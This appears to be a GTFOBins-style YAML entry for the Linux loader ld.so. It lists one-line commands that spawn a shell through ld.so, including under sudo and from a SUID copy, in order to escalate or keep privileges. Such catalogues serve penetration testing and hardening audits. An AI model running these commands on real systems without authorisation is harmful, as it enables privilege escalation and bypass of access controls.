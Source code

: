 ```yaml
---
description: |
  `ld.so` is the Linux dynamic linker/loader, its filename and location might
  change across distributions. The proper path is can be obtained with:

  ```
  $ strings /proc/self/exe | head -1
  /lib64/ld-linux-x86-64.so.2
  ```
functions:
  execute-interactive:
    - code: /lib/ld.so /bin/sh
  sudo-enabled:
    - code: sudo /lib/ld.so /bin/sh
  suid-enabled:
    - code: ./ld.so /bin/sh -p
---
```

